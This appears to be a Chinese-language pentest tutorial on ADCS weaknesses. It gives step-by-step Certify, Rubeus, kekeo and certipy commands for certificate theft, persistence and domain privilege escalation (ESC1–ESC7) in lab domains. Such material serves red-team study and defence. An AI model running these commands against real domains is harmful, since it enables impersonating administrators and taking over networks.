ADCS安全问题
目录
Active Directory Certificate Services 证书服务。ADCS 并不是默认安装但在大型企业域中通常被广泛部署
adcs大量攻击面存在于证书模版中，存储为
CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=,DC= ，
查看证书模版
查看某个用户或用户组对某个证书模版拥有的权限
Import-Module ActiveDirectory
cd AD:
$Acl = Get-Acl 'CN=User,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=pentest,DC=com'
$Acl.Access.Count
$Acl.Access | where IdentityReference -match 'Domain Users'

或者 certtmpl.msc，右键点击 “模板”，选择 “属性”，然后查看 “ 安全” 选项卡

或者certsrv.msc，右键单击选中的 CA，选择 “属性”，然后查看 “ 安全” 选项卡

证书身份验证
AD 默认支持两种协议的证书身份验证：Kerberos 协议和安全信道（Secure Channel，Schannel）。 PKINT（Public Key Cryptography for Initial Authentication ，“用于初始认证的公钥密码体制”）被用于kerberos协议中定义证书身份验证过程。
Secure Channel（Schannel）是 Windows 在建立 TLS/SSL 连接时利用的 SSP。Schannel 支持客户端身份验证（以及许多其他功能），使远程服务器能够验证连接用户的身份。它使用 PKI 完成此操作，证书是主要凭据。在 TLS 握手期间，服务器要求客户端请提供证书以进行身份验证。客户端先前已从服务器信任的 CA 颁发客户端身份验证证书，然后将其证书发送到服务器。然后，服务器验证证书是否正确，并在一切正常的情况下授予用户访问权限。
枚举ca
如果想要枚举企业 CA 及其设置，可以以 CN=Configuration,DC=<DOMAIN>,DC=<COM> 为 BaseDN，以 (objectCategory=pKIEnrollmentService) 为过滤器查询 LDAP。结果将识别 CA 服务器的 DNS 主机名、CA 名称本身、证书开始和结束日期、各种标志、已发布的证书模板等各种属性信息。
$baseDN = "CN=Configuration,DC=<DOMAIN>,DC=<COM>"
$filter = "(objectCategory=pKIEnrollmentService)"
Get-ADObject -SearchBase $baseDN -LDAPFilter $filter
Certify 可以枚举有关 AD CS 环境的有用配置和基础结构信息，使用其 cas 命令可以枚举受信任的根 CA 证书、由 NTAuthCertificates 对象定义的证书以及有关企业 CA 的各种信息：
https://github.com/GhostPack/Certify
Certify.exe cas

要获取有关每个可用证书模板的详细信息，可以使用 certutil -v -dstemplate 命令

攻击
证书窃取
NTLM Credential Theft via PKINIT – THEFT5
当使用证书进行 Kerberos PKINIT 身份验证的时候，返回的票据的 PAC 包里面包含用户的 NTLM 凭据。获取这个 NTLM 凭据涉及解密 PAC_CREDENTIAL_DATA 结构，mimikatz和kekeo实现了该点。
kekeo.exe "tgt::pac /caname:pentest-DC01-CA /subject:Marcus /castore:current_user /domain:pentest.com" exit

即使用户将密码改了，通过证书也随时都可以获取 NTLM
权限维持
Active User Credential Theft via Certificates – PERSIST1
如果有相应的证书模版，且已知当前用户密码，则可以用证书申请tgt来达到权限维持，即使用户重置密码，该tgt也依旧有效，此方法不会经过lsass可以规避一些edr检测。
所使用的证书模板需要具有以下属性：
该证书模板公开注册。
允许域用户（或用户所属的组）进行注册。
至少具有以下任何可启用域身份验证的 EKU：
Smart Card Logon (1.3.6.1.4.1.311.20.2.2)
Client Authentication (1.3.6.1.5.5.7.3.2) ○
PKINIT Client Authentication (1.3.6.1.5.2.3.4)
Any Purpose EKU (2.5.29.37.0)
No EKU set. i.e., this is a (subordinate) CA certificate.
不需要证书管理员批准或 “授权签名” 签发要求。
幸运的是，有一个已发布的模板允许这样做，即 User 模板。但是，虽然此模板是 AD CS 的默认模板，但某些环境可能会禁用它。
查找符合上述条件的模版
Certify.exe find /clientauth

申请证书，以User模版为例（需要注意的是，要想成功使用 Certify 的 request 命令，需要将 Certify 项目中生产的 DLL 依赖 Interop.CERTENROLLLib.dll 复制到 Certify.exe 的相同目录下。）
Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:User

成功执行后，将输出证书 + 私钥的 .pem 格式的文本块，需用openssl命令转换为.pfx格式，才能给rubeus用。
执行这个指令后会提示您输入密码，以保护生成的 .pfx 文件。
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
通过rubeus申请tgt并注入内存
Rubeus.exe asktgt /user:Marcus /certificate:C:\Users\Marcus\cert.pfx /password:Passw0rd /ptt
Machine Persistence via Certificates - PERSIST2
如果攻击者提升了权限到system，可以通过默认的 Machine 模板为当前机器账户注册证书,并获取tgt
Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:Machine /machine
后续操作与上一小节一致，用kekeo注入tgt到内存。
域权限提升
Misconfigured Certificate Templates - ESC1
证书模版有一组特定的设置，使它们极易被攻击者利用，以实现域权限提升。下面我们来介绍第一种配置情况（ESC1）：
企业 CA 授予低特权用户注册权限。
CA 证书管理程序批准被禁用。
无需授权签名。
过于宽松的证书模板安全描述符会向低特权用户授予证书注册权限。
证书模板定义了启用域身份验证的 EKU。
证书模板允许请求者在 CSR 中指定 subjectAltName。
注意最后一点，这个意思是在通过证书进行身份验证时，可以指定请求者的身份为任何人（例如域管）。
证书模板在其 AD 对象的 mspki-certificate-name-flag 属性中指定请求者是否可以在其中指定 SAN。mspki-certificate-name-flag 属性是位掩码，如果存在 CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT 标志，则请求者可以指定 SAN。在证书模板控制台 MMC 管理单元中，此值在模板的 “属性” 的 “使用者名称” 选项卡中进行设置，如下图所示，勾选 “在请求中提供(S)” 即可。

上述这些配置允许低权限用户使用任意的 SAN 请求证书，导致低权限用户能够通过 Kerberos 或 SChannel 以域中的任何主体身份进行身份验证。
枚举存在危险的证书模版
Certify.exe find /vulnerable

如上图所示，证书模板 VulnTemplate 在 msPKI-Certificate-Name-Flag 属性中启用了 CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT 标志
并且具有客户端身份验证的 EKU（Extended Key Usage,扩展密钥用途），pkiextendedkeyuseage存在客户端身份验证
并授予所有域用户注册权限。(enrollment rights存在 domain users）
通过certify请求tgt
Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:VulnTemplate /altname:PENTEST\Administrator
转为.pfx后给rubeus利用。
Rubeus.exe asktgt /user:Administrator /certificate:C:\Users\Marcus\cert.pfx /password:Passw0rd /ptt
Misconfigured Certificate Templates - ESC2
是esc1的变体
企业 CA 授予低特权用户注册权限。细节与 ESC1 相同。
CA 证书管理程序批准被禁用。细节与 ESC1 相同。
无需授权签名。细节与 ESC1 相同。
过于宽松的证书模板安全描述符会向低特权用户授予证书注册权限。细节与 ESC1 相同。
证书模板定义了 Any Purpose 类型的 EKU 或 SubCA 类型的 EKU。前者 Any Purpose 指证书可以用于任何目的，后者 SubCA 指证书没有 EKU，相当于从属 CA 的证书。
攻击者可以将具有 Any Purpose EKU 的证书用于任何目的，这包括客户端身份验证、服务器身份验证、代码签名等。可以用于获取tgt进行持久化等操作，感觉危害度没esc1高
Certify.exe find /vulnerable

Misconfigured Enrollment Agent Templates - ESC3
滥用eku中的“注册代理” 导致的权限提升。 注册代理：允许委托人代表另一个用户注册证书。
完成此攻击，CA 需要至少以下两组匹配条件的证书模板：
条件1:
允许低权限用户注册代理证书。
企业 CA 授予低特权用户注册权限。细节与 ESC1 相同。
CA 证书管理程序批准被禁用。细节与 ESC1 相同。
无需授权签名。细节与 ESC1 相同。
过于宽松的证书模板安全描述符会向低特权用户授予证书注册权限。细节与 ESC1 相同。
证书模板定义了证书申请代理 EKU。证书申请代理 OID（1.3.6.1.4.1.311.20.2.1）允许代表其他主体请求其他证书模板。
条件 2：
另一个模板需要允许低权限用户使用注册代理证书代表另一个用户来请求证书，并且该模板定义了一个允许域身份验证的 EKU。
企业 CA 授予低特权用户注册权限。细节与 ESC1 相同。
CA 证书管理程序批准被禁用。细节与 ESC1 相同。
模板架构版本 1 或大于 2 并在发布要求中指定了需要证书申请代理 EKU 的应用程序策略。关于发布要求的细节可以参考前文。
证书模板定义了启用域身份验证的 EKU。
注册代理限制未在 CA 上实施。
以下是匹配条件 1 的模板的示例：

以下是匹配条件 2 的模板的示例：

先请求注册代理证书（条件1模版）
Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:Vuln-EnrollmentAgent
将得到的注册代理证书使用 openssl 转换为 .pfx 格式，然后，用它来代表另一个用户（例如域管理员用户）向允许域身份验证的模板发出证书注册请求，相关命令如下。
Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:Vuln-EnrollmentAgent-AuthorizedSignatures /onbehalfof:PENTEST\Administrator /enrollcert:Vuln-EnrollmentAgentCert.pfx /enrollcertpw:Passw0rd
如上图所示，成功为域管理员用户 Administrator 注册了一个证书。在使用 openssl 转换为 .pfx 格式后，这个证书允许我们通过以 Administrator 的身份请求一个 TGT
Rubeus.exe asktgt /user:Administrator /certificate:C:\Users\Marcus\cert.pfx /password:Passw0rd /ptt
Vulnerable Certificate Template Access Control - ESC4
如果用户对ca模版有高权限acl，就可以干很多坏事。
例子：如果攻击者对模板对象拥有 WriteProperty 权限，则其可以修改模板 AD 对象属性，则他们可以直接将错误配置推送到不易受攻击的模板，例如通过为允许域身份验证的模板在 mspki-certificate-name-flag 属性中启用 CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT 标志，这会导致与 “Misconfigured Certificate Templates - ESC1” 相同的滥用场景。
Certify 的 find 命令会枚举所有证书模板的访问控制条目（BloodHound 团队也在积极集成此类枚举），如下图所示。
Certify.exe find

可见模版属性可被修改
看看具体可以修改哪些条目
Import-Module ActiveDirectory
(Get-Acl -Path "AD:CN=user,CN=certificate templates,CN=public key services,CN=services,CN=configuration,DC=ez,DC=lab").Access

objectType显示的是可以修改的属性。如果是msPKI-Certificate-Name-Flag的guid就可以直接修改了. 如果objectType全是0，则表示任意属性均可修改。
添加esc1中的敏感条目：
https://github.com/ly4k/Certipy certify python版+强化版
#保留旧ESC4模板配置并修改ESC4模板
certipy template -u hack@lhc.local -p 123@Qwe -template ESC4_1 -save-old
#利用新ESC4证书模板申请证书
certipy req -u hack@lhc.local -p 123@Qwe -ca Lhc-CS2016-CA -target-ip 10.211.55.20 -template ESC4_1 -upn administrator@lhc.local
#身份验证
certipy auth -pfx administrator.pfx -dc-ip 10.211.55.18
#模板复原
certipy template -u hack@lhc.local -p 123@Qwe -template ESC4 -configuration ESC4.json
或者
https://github.com/fortalice/modifyCertTemplate
这个工具还可以查看模版的属性以及acl，比较综合
python3 modifyCertTemplate.py -template KerberosAuthentication -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag ez.lab/administrator:pass
然后参照esc1进行攻击即可。
CA EDITF_ATTRIBUTESUBJECTALTNAME2 - ESC6
EDITF_ATTRIBUTESUBJECTALTNAME2 的滥用来启用 SAN (主题备用名)，从而允许用户在申请证书时说明自己身份，从而达到与启用 “Misconfigured Certificate Templates - ESC1” 中所述的危害一样
与EDITF_ATTRIBUTESUBJECTALTNAME2 有关,开启命令
#开启EDITF_ATTRIBUTESUBJECTALTNAME2
certutil -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
#重启certsvc服务
net stop certsvc
net start certsvc
企业 CA 授予低权限用户请求权限（默认）；
模板中 CA 管理员审批未启用（默认）；
模板中不需要授权的签名（默认）；
CA+EDITF_ATTRIBUTESUBJECTALTNAME2（以下为开启命令）

Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:User /altname:PENTEST\Administrator
获得admin的证书
Vulnerable Certificate Authority Access Control - ESC7
证书颁发机构也有一些acl，普通用户拥有这些权限也能进行域权限提升

这里的两个主要权限是 “管理 CA”（ManageCA）权限和 “颁发和管理证书”（ManageCertificates）权限，拥有这两个权限的用户分别对应于 “CA 管理员” 和 “证书管理员”（有时称为 CA 官员）。
1.对于“管理 CA”（ManageCA）权限
Import-Module -Name PSPKI
Get-CertificationAuthority -ComputerName dc01.pentest.com | Get-CertificationAuthorityAcl | select -expand Access

开启EDITF_ATTRIBUTESUBJECTALTNAME2 位以允许在任何模板注册请求中设置 SAN，用于完成esc6攻击
Import-Module PSPKI
$ConfigReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "DC01.pentest.com"
$ConfigReader.SetRootNode($true)
$ConfigReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
$ConfigReader.SetConfigEntry(1376590, "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
2.对于 “颁发和管理证书”（ManageCertificates）权限
一个名为 “ApproveReqTemplate” 的模板，其允许域身份验证并且在mspki-certificate-name-flag 属性中设置了 CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT 标志。正常情况下我们可以按照前文 “Misconfigured Certificate Templates - ESC1” 的方法为域管理员的申请证书，但是该模板在发布要求中开启了 “CA 证书管理程序批准(C)” 保护，如下图所示。

那么我们所有针对该模板的注册请求都将被挂起，直到管理员在 certsrv.msc 的 “挂起的申请” 中对该请求予以 “颁发” 或 “拒绝”。
但是如果我们有ManageCertificates权限（查询命令如下），我们就可以自主让该申请通过
Import-Module -Name PSPKI
Get-CertificationAuthority -ComputerName dc01.pentest.com | Get-CertificationAuthorityAcl | select -expand Access
照样请求证书，因为注册被挂起，我们只能获得一个request id
Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:ApproveReqTemplate /altname:PENTEST\Administrator

再通过如下命令让申请通过（request id 为56的申请通过）
Import-Module PSPKI
Get-CertificationAuthority -ComputerName dc01.pentest.com | Get-PendingRequest -RequestID 56 | Approve-CertificateRequest
再次申请证书，指定request id为先前的56，即可获得admin证书
Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /id:56